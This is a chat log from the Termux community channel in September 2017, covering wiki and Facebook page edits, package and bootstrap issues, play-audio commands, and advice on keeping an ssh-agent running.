2017-09-17 19:53:28	h093	$ play-audio A\ Horse\ With\ No\ Name\ -\ America\ \(Lyrics\)-CpSdePGgVyQ.mkv

2017-09-17 20:00:12	g093	play-audio A\ Horse\ With\ No\ Name\ -\ America\ \(Lyrics\)-CpSdePGgVyQ.mkv

2017-09-17 20:12:08	h093	Emojis are more important than before. It seems like emojis are mainstream. Do you agree? Professional Use of Emojis

2017-09-17 20:12:25	h093	https://wiki.termux.com/wiki/User_talk:Ux#Emoji

2017-09-17 20:18:30	Leopard07	morning

2017-09-17 20:19:49	gitter	(sdrausty) It's 🌃 night, after dusk Lropard07.

2017-09-17 20:20:44	gitter	(sdrausty) Good evening ♌ Leopard07

2017-09-17 20:21:25	Leopard07	ups, sorry. In my country now was morning

2017-09-17 20:23:24	gitter	(sdrausty) Good ☀ Morning ♌ Leopard07

2017-09-17 21:36:51	gitter	(Auxilus) @fornwall seems like `termux-exec ` is not doing anything..

2017-09-17 21:38:06	gitter	(Auxilus) Sry @fornwall .. Its working

2017-09-17 21:38:07	gitter	(sdrausty) How so? Did you start a new session @Auxilus ?

2017-09-17 21:38:40	gitter	(sdrausty) good @Auxilus works 😶 here too

2017-09-17 21:38:54	gitter	(Auxilus) 👍

2017-09-17 21:39:27	gitter	(Auxilus) I think @fornwall should add `termux-exec` to bootstrap

2017-09-17 21:42:52	gitter	(sdrausty) https://wiki.termux.com/wiki/Disclaimer we touch bricking and more, i.e. incidental...

2017-09-17 21:43:21	gitter	(sdrausty) Any other opinions about it and

2017-09-17 21:44:21	gitter	(Auxilus) Don't you think it shoupd be `application` rather than `software `?

2017-09-17 21:44:44	gitter	(sdrausty) https://wiki.termux.com/wiki/Draft:Main_Page can you please change some of the latin to English @Auxilus ?

2017-09-17 21:45:46	gitter	(sdrausty) software/hardware that's the game in town today and tomorrow, just like yesterday

2017-09-17 21:45:47	gitter	(Auxilus) I'll try, cz I'm about to go to college

2017-09-17 21:46:06	gitter	(sdrausty) Congratulations @Auxilus

2017-09-17 21:46:16	gitter	(Auxilus) For?

2017-09-17 21:46:29	gitter	(sdrausty) Getting into college.

2017-09-17 21:46:45	gitter	(Auxilus) Yeah ty

2017-09-17 21:46:58	gitter	(Auxilus) But pretty much everyone goes to college

2017-09-17 21:47:40	gitter	(Auxilus) What about you @sdrausty?

2017-09-17 21:47:48	gitter	(sdrausty) These days, most do, I agree.

2017-09-17 21:48:06	gitter	(Auxilus) BTW lorem ipsum is awesome!

2017-09-17 21:48:16	gitter	(sdrausty) Been there, done that afa college

2017-09-17 21:48:33	gitter	(sdrausty) Latin

2017-09-17 21:48:41	gitter	(sdrausty) 🏇 horses

2017-09-17 21:49:07	gitter	(sdrausty) Iron ⚔

2017-09-17 21:49:19	gitter	(Auxilus) afa college?

2017-09-17 21:49:32	gitter	(Auxilus) As far as?

2017-09-17 21:50:57	gitter	(sdrausty) Is this your first time?

2017-09-17 21:51:10	gitter	(sdrausty) Going to college?

2017-09-17 21:51:14	gitter	(Auxilus) For college?

2017-09-17 21:51:15	gitter	(Auxilus) No

2017-09-17 21:51:23	gitter	(Auxilus) 2nd time

2017-09-17 21:51:32	gitter	(Auxilus) Im in senior college now

2017-09-17 21:51:43	gitter	(Auxilus) You know, degree college

2017-09-17 21:52:19	gitter	(sdrausty) Accredited degrees 👍

2017-09-17 21:53:18	gitter	(sdrausty) Usually helps on the resume 📝

2017-09-17 21:54:54	gitter	(sdrausty) Can your attention be channelled to

2017-09-17 21:55:56	gitter	(sdrausty) https://facebook.com/termux/ please 🏆

2017-09-17 22:07:54	gitter	(Auxilus) Nice! You created it?

2017-09-17 22:24:06	gitter	(sdrausty) @fornwall granted editing permissions.

2017-09-17 22:25:56	gitter	(sdrausty) Just posted https://m.youtube.com/watch?v=Q7NDoMDobCw What do you think? I got the pleasure to edit, wow!

2017-09-17 22:26:51	gitter	(sdrausty) Can you pleasehttps://wiki.termux.com/wiki/Talk:Disclaimer

2017-09-17 22:27:49	gitter	(sdrausty) About https://wiki.termux.com/wiki/Disclaimer your suggestion @Auxilus  a good suggestion of course

2017-09-17 22:28:34	gitter	(sdrausty) Maybe we should duplicate the link in

2017-09-17 22:29:17	gitter	(sdrausty) https://wiki.termux.com/wiki/Contact

2017-09-17 22:30:45	gitter	(sdrausty) https://wiki.termux.com/wiki/Contact

2017-09-17 22:33:25	gitter	(Auxilus) Is thatchu in the video?

2017-09-17 23:17:03	g093	no no its not me.in the video 

2017-09-17 23:17:25	g093	moved it off the Main Page

2017-09-17 23:17:32	gitter	(Auxilus) Kk..

2017-09-17 23:17:38	gitter	(Auxilus) I thought its you

2017-09-17 23:17:39	g093	put it in Coontacts

2017-09-17 23:18:06	gitter	(Auxilus) Hey why dont you put a screenshot of termux running metasploit-framework on facebook?

2017-09-17 23:18:15	g093	https://wiki.termux.com/wiki/Contact

2017-09-17 23:18:17	gitter	(Auxilus) Also write a lil description

2017-09-17 23:18:56	gitter	(Auxilus) @fornwall any chance of getting wine package running?

2017-09-17 23:19:00	g093	right between See Also and Licencing

2017-09-17 23:19:31	g093	@Auxilus he said it's too big long ago

2017-09-17 23:20:02	g093	why do you want wine on Termux?

2017-09-17 23:20:02	gitter	(Auxilus) Yeah but like just give the deb file for those who want to use it

2017-09-17 23:20:13	gitter	(Auxilus) Its for metasploit-framework

2017-09-17 23:20:44	gitter	(Auxilus) I can host the deb file on my git if he doesn't want to host such big package on official repo

2017-09-17 23:21:09	g093	Can't you host wine from https://auxilus.github.io/wine ?

2017-09-17 23:21:36	gitter	(Auxilus) Yeah but i cant compile it bro..

2017-09-17 23:21:58	gitter	(Auxilus) g093 you handle Twitter also?

2017-09-17 23:22:28	g093	u want 2know everything don't u.?

2017-09-17 23:23:10	gitter	(Auxilus) Ye 😂

2017-09-17 23:23:32	g093	this device will shut down in t- of its hours almost not days

2017-09-17 23:23:46	g093	of *oh

2017-09-17 23:24:40	g093	g will probably morph

2017-09-17 23:31:13	g093	probabably into g0??

2017-09-17 23:32:45	g093	how is u assigned for the Termux 💪

2017-09-17 23:33:00	gitter	(Auxilus) ?

2017-09-17 23:33:10	gitter	(Auxilus) You mean how i found termux?

2017-09-17 23:34:29	g093	@Auxilus post a link here u wanna post bout metaspl

2017-09-17 23:34:47	g093	i ll repist

2017-09-17 23:35:19	g093	repist *repost it if it's great

2017-09-17 23:35:30	g093	u know perfect

2017-09-17 23:36:30	gitter	(Auxilus) Just take screenshot from https://wiki.termux.com/wiki/File:Meta2.png

2017-09-17 23:36:54	gitter	(Auxilus) And put something like 'yey we got metasploit-framework in termux,'

2017-09-17 23:37:11	gitter	(Auxilus) Put https://wiki.termux.com/wiki/Metasploit_Framework in description also

2017-09-17 23:38:47	g093	thats already up @Auxilus

2017-09-17 23:39:08	g093	it went up this morning

2017-09-17 23:39:21	gitter	(Auxilus) Yhe post???

2017-09-17 23:39:59	g093	https://m.facebook.com/story.php?story_fbid=1963818987165292&id=1511958572351338

2017-09-17 23:40:34	gitter	(Auxilus) Nice!

2017-09-17 23:40:41	g093	do u want 2 redit it?

2017-09-17 23:40:46	g093	add +

2017-09-17 23:40:49	g093	-

2017-09-17 23:40:51	g093	etc

2017-09-17 23:41:09	gitter	(Auxilus) Nah, looks fine..

2017-09-17 23:41:17	g093	ok

2017-09-17 23:44:39	g093	111 people reacted since posting this morning lol :)

2017-09-17 23:44:56	g093	to https://m.facebook.com/story.php?story_fbid=1963818987165292&id=1511958572351338

2017-09-17 23:45:05	g093	wow

2017-09-17 23:45:38	g093	thats about 10 reacts /hr

2017-09-17 23:46:16	g093	just to that link @Auxilus what do u think?

2017-09-17 23:47:52	gitter	(Auxilus) I must tell you, 90% of them cant even changed the directory with `cd`!

2017-09-17 23:50:45	g093	we wanna edzukate ;)

2017-09-17 23:50:57	g093	spread da word

2017-09-17 23:51:43	g093	@Auxilus u forgot +enter/return. 

2017-09-17 23:52:22	gitter	(Auxilus) I forgot +enter/return? Where?

2017-09-17 23:52:30	gitter	(Auxilus) Tell me one thing..

2017-09-17 23:52:56	gitter	(Auxilus) Whut that aczent is called?

2017-09-17 23:53:04	g093	yeah which to tap er misstap over N over

2017-09-17 23:56:00	g093	$ play-audio pink/theWall/Another\ Brick\ In\ The\ Wall\ \(Part\ 2\)-zz8frWcmthA.mkv

2017-09-18 00:20:23	g093	wud agzent @Auxilus?

2017-09-18 00:21:14	gitter	(Auxilus) Tht agzent bruh

2017-09-18 00:21:39	g093	@Auxilus what's 10^10/hr

2017-09-18 00:22:11	g093	dunno 'bout acsent much datiz

2017-09-18 00:22:37	gitter	(Auxilus) Ooki man

2017-09-18 00:23:39	g093	lets say English afaj

2017-09-18 00:23:54	g093	afaj *afak

2017-09-18 00:24:28	gitter	(Auxilus) Gotchu

2017-09-18 00:27:20	g093	:)

2017-09-18 02:12:35	gitter	(Auxilus) Anyone tried installing wine?

2017-09-18 02:22:05	frumpylava	@fornwall: Could you please update the bootstrap*.zip files? In order for termux-exec to not break in https://github.com/Neo-Oli/chrooted-termux/ I need to switch to using the login script instead of calling the shells directly and that doesn't work if it is outdated.

2017-09-18 02:34:08	g093	$ play-audio America\ -\ Ventura\ Highway-5Ha-ZsGxCb8.mp4

2017-09-18 02:36:49	g093	frumpylava: Have you had a chance to review https://wiki.termux.com/wiki/Draft:Main_Page ?

2017-09-18 02:38:43	frumpylava	g093: Ah yes. I looked over it. I really like the new structure of it.

2017-09-18 02:39:32	g093	can you integrate this into Main Psge at you leisure

2017-09-18 02:40:09	frumpylava	I would, but since it is still full of lorem ipsum text I can't do that easily. And I have no idea what to write instead of it.

2017-09-18 02:40:22	frumpylava	g093: Can you write the blurbs?

2017-09-18 02:41:22	gitter	(Auxilus) Imma change that lorem

2017-09-18 02:41:48	gitter	(Auxilus) Whats a blurb?

2017-09-18 02:43:10	g093	click the link @Auxilus

2017-09-18 02:43:37	g093	A blurb is a short promotional piece accompanying a creative work. 

2017-09-18 02:43:37	frumpylava	@Auxilus something longer than a slogen, but shorter than a paragraph.

2017-09-18 02:43:58	g093	from https://en.wikipedia.org/wiki/Blurb

2017-09-18 02:44:15	gitter	(Auxilus) Ill inform you as soon as I get it done

2017-09-18 02:44:41	g093	wherz https://en.wikipedia.org/w/index.php?search=Termux ?

2017-09-18 02:52:14	frumpylava	g093: You can always create it.

2017-09-18 02:59:42	phil42	i installed a long time ago.   should i completely reinstall or is apt update; apt upgrade enough?

2017-09-18 03:02:59	frumpylava	phil42: apt update; apt upgrade should be enough. I don't think there where any breaking changes. Altough you might want to restart termux completely afterwards.

2017-09-18 03:03:24	frumpylava	The last zsh upgrade at least broke all running zsh's for me and I had to restart them all.

2017-09-18 03:34:10	frumpylava	g093: Good job on the facebook page. Thanks for linking to my stuff.

2017-09-18 03:34:45	frumpylava	g093: I also think the facebook is the perfect place for your emojis 😉

2017-09-18 05:24:46	--	Mode #termux [+o fornwall] by ChanServ

2017-09-18 05:24:47	--	fornwall has changed topic for #termux from "termux.com | Terminal emulator and Linux environment for Android | This channel is mirrored" to "termux.com | This channel is mirrored | Linux terminal environment for Android"

2017-09-18 05:25:00	--	Mode #termux [-o fornwall] by ChanServ

2017-09-18 07:03:36	frumpylava	I wonder if there is a way to avoid dpkg crashing when termux-exec is removed.

2017-09-18 08:38:22	gitter	(Auxilus) Someone here?

2017-09-18 08:38:45	gitter	(Auxilus) Im having trouble installing gem called twilio-ruby

2017-09-18 08:39:04	gitter	(Auxilus) It says in logs that it cant find xmlversion.h

2017-09-18 08:49:27	gitter	(Auxilus) Np, found soln

2017-09-18 11:46:20	rainman	Djdjsd

2017-09-18 13:01:46	gitter	(Auxilus) frumpylava : I am still feeling we shouldn't include GUI section on wiki

2017-09-18 13:09:38	gitter	(Auxilus) frumpylava : I've modified https://wiki.termux.com/wiki/Draft:Main_Page afai could..

2017-09-18 13:09:57	gitter	(Auxilus) Se eif something extra needs to be added..

2017-09-18 13:14:44	gitter	(Auxilus) frumpylava : I did some format changes in https://wiki.termux.com/wiki/FAQ

2017-09-18 13:15:02	gitter	(Auxilus) Also you should make the code block a lil bit fainter..

2017-09-18 13:41:26	g093	@Auxilus where did the toc go in https://wiki.termux.com/wiki/FAQ the qie

2017-09-18 13:41:48	g093	questions were #d

2017-09-18 13:42:53	g093	@Auxilus users are confused by GUI/UI The wiki should explain it

2017-09-18 13:47:13	g093	Termux is a GUI which enables the command line UI, or similar

2017-09-18 13:48:34	g093	There should be more than one section in Welcome to Termux

2017-09-18 13:49:07	g093	I'm suggesting path, four of them

2017-09-18 13:49:15	g093	GUI

2017-09-18 13:50:05	g093	Hardware

2017-09-18 13:50:13	g093	Software

2017-09-18 13:50:16	g093	Ui

2017-09-18 13:50:25	g093	Ui *UI

2017-09-18 13:50:57	g093	These links can have overlapping topics

2017-09-18 13:51:26	g093	touchkeyboard in GUI

2017-09-18 13:52:00	g093	hardware keyboard in UI

2017-09-18 13:52:26	g093	OTG can overlap in bith topics

2017-09-18 13:52:34	g093	bith *both

2017-09-18 13:52:36	g093	etc

2017-09-18 13:53:37	g093	path *paths

2017-09-18 14:05:10	Khan	Hacking

2017-09-18 14:05:34	Khan	Www.Facebook. com

2017-09-18 14:06:19	Khan	Ping

2017-09-18 14:06:55	Khan	W3w

2017-09-18 14:07:01	Khan	CDMA

2017-09-18 14:07:04	Khan	Hgf

2017-09-18 14:07:06	Khan	J

2017-09-18 14:58:25	g093	Khan: https://wiki.termux.com/wiki/Hacking

2017-09-18 15:04:07	frumpylava	g093: I think you mean CLI: command line interface: Things like bash are a CLI. There is also TUI: Terminal User Interface. Things like vim and weechat are a TUI. These are the "official" designations.

2017-09-18 15:05:49	frumpylava	@Auxilus I moved the Draft to the main page, but I agree with g093 that it probably still needs a bit more stuff.

2017-09-18 15:06:52	gitter	(Auxilus) Ye, we definitely need more stuff..

2017-09-18 15:07:11	gitter	(Auxilus) My edit was sort of like temporary...

2017-09-18 15:08:01	frumpylava	g093: Can you please stop creating pages with no content? Like the hacking page. I am all for having Hacking page, but it should at least have some relevant information.

2017-09-18 15:08:32	gitter	(Auxilus) frumpylava : I also feel like we should change the font..

2017-09-18 15:08:44	gitter	(Auxilus) Maybe to monospace idk...

2017-09-18 15:09:00	gitter	(Auxilus) Also code blocks should be little faint

2017-09-18 15:10:18	gitter	(Auxilus) g093 : there is not much hacking stuff (exept for metasploit-framework, nmap, hydra) on termux

2017-09-18 15:14:18	frumpylava	There I added at least something to the Hacking Page

2017-09-18 15:15:35	gitter	(Auxilus) Cut out the word 'several'

2017-09-18 15:15:50	gitter	(Auxilus) Btw I gave some suggestions up..

2017-09-18 15:18:54	gitter	(Auxilus) Code block looks better now..

2017-09-18 15:20:03	frumpylava	@Auxilus Do you have a suffestion for a good theme? Preferably a responsive one

2017-09-18 15:20:39	gitter	(Auxilus) I don't know much of themes... Is there any showcase of themes?

2017-09-18 15:21:30	gitter	(Auxilus) Wikipedia.org has good theme..

2017-09-18 15:21:36	gitter	(Auxilus) Can you use it?

2017-09-18 15:22:46	frumpylava	@Auxilus we are already using wikipedia's theme. The problem is that it isn't responsive.

2017-09-18 15:23:40	gitter	(Auxilus) Well, ill search for good theme and tell you then maybe

2017-09-18 15:27:58	gitter	(Auxilus) frumpylava : im adding sqlmap

2017-09-18 15:36:36	frumpylava	@Auxilus cool. Can you make sure the table is alphabetically sorted. There is no way to sort it automatically on page load.

2017-09-18 15:37:09	gitter	(Auxilus) Np, ill do it right away..

2017-09-18 15:38:37	gitter	(Auxilus) See now..

2017-09-18 15:47:43	g093	wow

2017-09-18 15:47:52	g093	gw fa

2017-09-18 15:48:53	frumpylava	@Auxilus g093 What do you think of the theme now?

2017-09-18 15:49:54	g093	great

2017-09-18 15:50:01	gitter	(Auxilus) frumpylava : looks awesome

2017-09-18 15:50:02	g093	tnx

2017-09-18 15:50:50	g093	gw fa *gw fa:

2017-09-18 15:51:13	g093	& @Auxilus, et. al.

2017-09-18 15:51:33	frumpylava	what?

2017-09-18 15:51:35	g093	:)

2017-09-18 15:51:37	gitter	(Auxilus) ???

2017-09-18 15:51:41	g093	:))

2017-09-18 15:51:50	g093	wadz faq #1

2017-09-18 15:51:54	g093	lol

2017-09-18 15:51:55	gitter	(Auxilus) Sometimes you don't make any sense at Ll

2017-09-18 15:51:57	g093	LOL

2017-09-18 15:52:00	gitter	(Auxilus) *all

2017-09-18 15:52:15	g093	I do not understand.

2017-09-18 15:53:22	g093	#1 FAQ I don't understand it; Let's change topic

2017-09-18 15:53:22	gitter	(Auxilus) frumpylava : you may want to remove the main page title from main_page

2017-09-18 15:53:27	gitter	(Auxilus) Looks kinda wiered

2017-09-18 15:53:45	gitter	(Auxilus) Main page should start from Welcome to Termux

2017-09-18 15:53:49	g093	yes @Auxilux : thumbs up:

2017-09-18 15:54:01	g093	or similar

2017-09-18 15:54:21	g093	mv mp outa there plz

2017-09-18 15:54:34	g093	IRC?

2017-09-18 15:55:58	g093	@Auxilus what should mp be mv to ?

2017-09-18 15:56:05	g093	?

2017-09-18 15:56:23	g093	wtt

2017-09-18 15:56:44	g093	w3m wiki sth plp

2017-09-18 15:56:47	g093	plz

2017-09-18 15:56:53	g093	or smlr

2017-09-18 15:57:06	gitter	(Auxilus) Wth is tht?

2017-09-18 15:57:13	gitter	(Auxilus) Daim son

2017-09-18 15:57:46	gitter	(Auxilus) Yo thok en cod language

2017-09-18 16:00:28	gitter	(sdrausty) https://wiki.termux.com nice ⛵

2017-09-18 16:01:24	gitter	(sdrausty) https://wiki.termux.com/wiki/Hacking 👍

2017-09-18 16:01:40	gitter	(sdrausty) https://wiki.termux.com/wiki/Botting 🎆

2017-09-18 16:02:50	gitter	(sdrausty) https://sdrausty.github.io/pages/htgp pull requests please 🎆🎇

2017-09-18 16:03:29	frumpylava	Alright I removed the Main heading on the main page. Also fixed some issues with other custom elements. Will look at it more closely tomorrow. Going to bed now.

2017-09-18 16:03:51	gitter	(Auxilus) 'Kay

2017-09-18 16:03:51	gitter	(Auxilus) Me too

2017-09-18 16:03:51	gitter	(Auxilus) Gn

2017-09-18 16:05:04	g093	+https://wiki.termux.com/wiki/WikiFAQ to entry pg plz frumpylava

2017-09-18 16:05:19	g093	rt @top

2017-09-18 16:06:04	g093	clear

2017-09-18 16:06:20	g093	wait 2?

2017-09-18 16:07:47	frumpylava	g093: you can edit the draft of the main page again if you want more changes.

2017-09-18 16:07:54	g093	sure

2017-09-18 16:07:57	g093	omw

2017-09-18 16:23:13	g093	Hackers have successfully breached CCleaner’s security to inject malware into the app and distribute it to millions of users. 

2017-09-18 16:23:26	g093	https://www.theverge.com/platform/amp/2017/9/18/16325202/ccleaner-hack-malware-security

2017-09-18 16:23:46	g093	play-audio A\ Horse\ With\ No\ Name\ -\ America\ \(Lyrics\)-CpSdePGgVyQ.mkv

2017-09-18 16:25:46	g093	frumpylavav cnt edit ntg

2017-09-18 16:26:00	g093	@da wiki

2017-09-18 16:26:16	g093	cn upload ok

2017-09-18 16:34:17	g093	tm tick

2017-09-18 16:34:26	g093	rss

2017-09-18 16:34:29	g093	atom

2017-09-18 16:38:21	g093	what happens when it successfully builds with

2017-09-18 16:38:25	g093	every

2017-09-18 16:38:30	g093	library

2017-09-18 16:38:38	g093	on system

2017-09-18 16:38:41	g093	?

2017-09-18 16:40:20	g093	play-audio $PREFIX/dev/null

2017-09-18 16:40:36	g093	8

2017-09-18 16:40:39	g093	~

2017-09-18 16:42:05	g093	frumpylava: whz search?

2017-09-18 16:42:33	g093	@https://wiki.termux.com

2017-09-18 16:45:28	g093	frumpylava: how do u edit da pages now?

2017-09-18 16:46:44	g093	$ play-audio BOMBÓN\ -\ EL\ PERRO-J1n2npvv3uU.mkv

2017-09-18 16:47:41	frumpylava	g093: gear icon

2017-09-18 16:48:49	g093	$ play-audio Megan\ Leavey\ -\ Trailer-IE4EwTvX8Vw.mp4

2017-09-18 16:49:04	g093	gear duzzt do much

2017-09-18 16:49:33	g093	ill try gear once more frumpylava

2017-09-18 16:52:09	g093	$ play-audio Megan\ Leavey\ -\ Trailer-IE4EwTvX8Vw.mp4

2017-09-18 16:52:27	g093	sleep ?

2017-09-18 16:53:57	g093	gear *sprocket

2017-09-18 16:56:15	g093	$ play-audio Emerson\,\ Lake\ \&\ Palmer\ -\ Lucky\ Man-89g1P_J40JA.mkv

2017-09-18 16:56:31	g093	ahh

2017-09-18 16:59:43	gitter	(sdrausty) Ah

2017-09-18 17:03:29	h093	had

2017-09-18 17:08:53	h093	$ play-audio eagles/Eagles\ -\ Hotel\ California\ \(Live.\ At\ The\ Capital\ Centre\,\ 1977\)-R80Q_FQGKj4.mkv

2017-09-18 17:11:20	h093	sweet

2017-09-18 17:13:29	h093	https://duckduckgo.com/?q=spacely+sprockets

2017-09-18 17:14:35	h093	md dj:termux channel plz ?

2017-09-18 17:14:46	h093	md *maybe

2017-09-18 17:41:58	g093	$ play-audio animals/Pink\ Floyd\ -\ Dogs\ \(1977\)-nUTKRtLjjnM.mkv

2017-09-18 18:41:02	g093	$ play-audio eagles/Eagles\ -\ Hotel\ California\ \(Live.\ At\ The\ Capital\ Centre\,\ 1977\)-R80Q_FQGKj4.mkv

2017-09-18 18:42:42	g093	frumpylava: Basel - Milan hyperloop wdut?

2017-09-18 18:45:04	g093	Or Basel - Zürich - Roma (a capitol city) &beyond?

2017-09-18 18:46:26	h093	built in n days

2017-09-18 18:48:32	h093	http://central.gutenberg.org/articles/the_machine_stops

2017-09-18 18:52:51	h093	cant find a thing a gutenburg any more

2017-09-18 19:59:58	Church-	Okay, I so need to get termux working with daydream vr.

2017-09-19 01:24:50	gitter	(sdrausty) https://www.xda-developers.com/termux-the-ultimate-linux-terminal-emulator-for-android-xda-spotlight/

2017-09-23 20:21:02	sdrausty	https://sdrausty.github.io

2017-09-23 20:23:55	sdrausty	https://m.facebook.com/termux/

2017-09-23 21:25:48	gitter	(atomi) where can we request ncmpc be added?

2017-09-23 21:26:21	gitter	(atomi) ncmpcpp is too slow imo

2017-09-23 22:41:30	live_the_dream	on issues on github.com/termux/termux-packages @atomi

2017-09-24 09:45:32	gitter	(cocodevienne) @fornwall how do I include a directory in the `manifest.json` file for `termux-create-package`?

2017-09-24 09:48:28	gitter	(cocodevienne) Can anyone help?

2017-09-24 10:02:47	sdrausty	here an example @cocodevienne https://github.com/sdrausty/au/blob/master/manifest.json

2017-09-24 10:29:13	sdrausty	https://m.facebook.com/termux/

2017-09-24 11:15:16	gitter	(sdrausty) https://plus.google.com/communities/101692629528551299417

2017-09-24 11:21:07	sdrausty	how to have play-audio play lazy 8 loop?

2017-09-24 12:17:03	sdrausty	$ play-audio America\ -\ Ventura\ Highway-5Ha-ZsGxCb8.mp4

2017-09-24 12:17:03	sdrausty	$ play-audio America\ -\ Ventura\ Highway-5Ha-ZsGxCb8.mp4

2017-09-24 12:17:04	sdrausty	$ play-audio America\ -\ Ventura\ Highway-5Ha-ZsGxCb8.mp4

2017-09-24 12:17:04	sdrausty	$ play-audio America\ -\ Ventura\ Highway-5Ha-ZsGxCb8.mp4

2017-09-24 12:17:27	sdrausty	https://github.com/termux/play-audio/issues/5

2017-09-24 12:17:45	sdrausty	how to have play-audio play lazy 8 loop? #5

2017-09-24 12:23:04	sdrausty	@Auxilus wdut The content is provided "as is" without warranty of any kind, either expressed or implied, including, but not limited to, the implied warranties of correctness and relevance to a particular subject. The entire risk as to the quality and accuracy of the content is with you. Should the content prove substandard, you assume the cost of all necessary servicing, repair, or correction. 

2017-09-24 12:23:07	sdrausty	https://wiki.termux.com/wiki/Termux_Wiki:General_disclaimer

2017-09-24 12:23:36	sdrausty	wdut *wdut?

2017-09-24 12:52:35	sdrausty	https://duckduckgo.com/?q=five+billion+Android+devices+affected

2017-09-24 12:53:12	sdrausty	BlueBorne Vulnerabilities Impact Over 5 Billion Bluetooth ...

2017-09-24 12:55:12	gitter	(sdrausty) wdut? =  do you think?

2017-09-24 12:57:03	gitter	(sdrausty) gitter.im garbled

2017-09-24 12:57:29	sdrausty	wdut? = What do you think?

2017-09-24 15:29:31	gitter	(smathieson) hello

2017-09-24 21:07:09	sdrausty	$ while true; do play-audio America\ -\ Ventura\ Highway-5Ha-ZsGxCb8.mp4; done

2017-09-24 21:26:40	timwr	Auxilus: how's cross compiling going?

2017-09-24 23:02:08	gitter	(Auxilus) timwr : not so well, I can't get past the gem error..

2017-09-24 23:02:55	gitter	(Auxilus) Can we root android using termux? I see we have `am ` and `pm`...

2017-09-24 23:05:55	xtaulah	hello

2017-09-24 23:16:39	live_the_dream	hello

2017-09-24 23:33:06	gitter	(Auxilus) @sdrausty   you online?

2017-09-24 23:39:00	gitter	(Auxilus) https://github.com/termux/termux-app/pull/434

2017-09-25 00:03:21	gitter	(themastersunil) How can i use service apache2 start in termux????

2017-09-25 00:04:51	gitter	(Auxilus) apachectl -k start

2017-09-25 00:06:50	gitter	(Auxilus) @fornwall check out https://github.com/termux/termux-app/pull/434

2017-09-25 00:08:39	gitter	(themastersunil) I can use ngrok for this?

2017-09-25 00:11:52	gitter	(themastersunil)  apachectl -k start

2017-09-25 00:11:53	gitter	(themastersunil) AH00557: httpd: apr_sockaddr_info_get() failed for kali

2017-09-25 00:11:53	gitter	(themastersunil) AH00558: httpd: Could not reliably determine the server's fully qualified domain name, using 127.0.0.1. Set the 'ServerName' directive globally to suppress this message

2017-09-25 00:11:53	gitter	(themastersunil) [full message: https://gitter.im/termux/termux?at=59c88208c101bc4e3a045e54]

2017-09-25 00:12:16	gitter	(themastersunil) what I' do?

2017-09-25 02:16:34	azarus	When I try to download torrents using aria2, I get a "bus error" message and aria2 gets killed. Any clues?

2017-09-25 02:16:45	azarus	I'll try compiling it myself and getting a backtrace.

2017-09-25 03:01:47	azarus	Can I adjust the termux packaging script so that the binary includes debugging symbols?

2017-09-25 03:04:38	live_the_dream	when you build a package use ./build-package -d packagename

2017-09-25 03:05:19	azarus	Thank you.

2017-09-25 04:11:33	live_the_dream	b2

2017-09-25 05:20:28	gitter	(cocodevienne) How? You are including a Bash script... @sdrausty

2017-09-25 07:56:51	frumpylava	oh wow. I think I got proxychains-ng to work

2017-09-25 08:11:25	gitter	(Auxilus) frumpylava : take a look at https://github.com/termux/termux-app/pull/434

2017-09-25 08:13:38	frumpylava	@Auxilus looks interessting. This is basically implementing what I suggested a year or so ago? By the way how do you test this? I thought you don't have access to a build machine?

2017-09-25 08:16:37	frumpylava	BrainDamage: Are you an experienced user of proxychains-ng? Do you want to test the build I did?

2017-09-25 08:35:11	gitter	(Auxilus) frumpylava : Yes thats was from your comment... BTW I haven't tested it..

2017-09-25 08:54:56	gitter	(Auxilus) @fornwall https://github.com/termux/termux-app/pull/436

2017-09-25 10:47:20	sdrausty	@auxilus ♠❤♦♣ the four card suits. Where are they in tty-solitaire? https://github.com/termux/termux-packages/issues/1536

2017-09-25 10:49:10	gitter	(Auxilus) sdrausty : sry man, idk, i just compiled it... ¯\_(ツ)_/ ¯

2017-09-25 11:03:09	gitter	(Auxilus) frumpylava : what do you think?

2017-09-25 11:03:24	sdrausty	Why didn't you test it before pulling? @auxulis

2017-09-25 11:03:33	gitter	(Auxilus) Should official help page be on wiki?

2017-09-25 11:03:47	gitter	(Auxilus) sdrausty its *Auxilus

2017-09-25 11:04:15	gitter	(Auxilus) sdrausty : thats cz I dont have linuxbox to test 'em on

2017-09-25 11:04:30	gitter	(Auxilus) Sure hell imma get one i n under 4 months

2017-09-25 11:07:26	sdrausty	You don't have an Android @Auxilus? ttysolitaire runs on Android, not Linux.

2017-09-25 11:08:13	sdrausty	@Auxilus the app help pages must be secure.

2017-09-25 11:08:35	sdrausty	Are they secure on the wiki? 'ell NO.

2017-09-25 11:23:04	morantron	hi!

2017-09-25 11:23:18	morantron	is there a way to remember ssh key passphrase?

2017-09-25 11:23:34	morantron	i want to push to a git repo from termux, which has ssh authentication set up

2017-09-25 11:24:04	morantron	but is a lil bit annoying to have to enter passphrase every time i start ssh-agent with ". source-ssh-agent"

2017-09-25 11:24:52	frumpylava	morantron: Yes ssh agent. https://wiki.termux.com/wiki/SSH has a short section on it. But it's also the same as on all linuxes. "SSH Agent"

2017-09-25 11:25:38	morantron	yes

2017-09-25 11:25:43	morantron	thanks frumpylava

2017-09-25 11:25:58	BrainDamage	frumpylava: i can test later today

2017-09-25 11:26:09	morantron	i guess i need to figure out how gnome keyring does this

2017-09-25 11:26:21	BrainDamage	morantron: you'll have to enter the password everytime ssh agent starts up

2017-09-25 11:26:37	BrainDamage	gnome keyring uses pam, which you don't have the luxury on termux

2017-09-25 11:26:38	morantron	is there a way to avoid this?

2017-09-25 11:27:11	morantron	i guess my options are to have a sshkey with a more mobile friendly passphrase lol

2017-09-25 11:27:26	BrainDamage	you could have a long lived ssh agent

2017-09-25 11:27:32	BrainDamage	i think you can set the key timeout

2017-09-25 11:27:56	BrainDamage	start the agent with the phone boot, export the env var, and source it from the termux shells

2017-09-25 11:28:13	BrainDamage	then you can add the key once, and it'll stay in ram until you reboot

2017-09-25 11:28:22	morantron	interesting

2017-09-25 11:29:16	BrainDamage	howrever i question what's the point of having a pw then

2017-09-25 11:29:34	BrainDamage	since anything that knows the agent can just request it to auth a connection

2017-09-25 11:29:53	BrainDamage	while they won't have access to your private key, they can just use it as will

2017-09-25 11:30:17	morantron	but only inside termux, no?

2017-09-25 11:30:35	morantron	wouldn't the same happen with gnome keyring?

2017-09-25 11:30:44	BrainDamage	yes it would

2017-09-25 11:31:09	BrainDamage	and whenever it's only inside termux or not, depends if it uses unix sockets or net sockets

2017-09-25 11:31:15	BrainDamage	iirc it uses unix, so only termux

2017-09-25 11:33:27	BrainDamage	anyway a long lived ssh agent session launched at boot should give you gnome keyring-esque behaviour

2017-09-25 11:33:35	morantron	yup

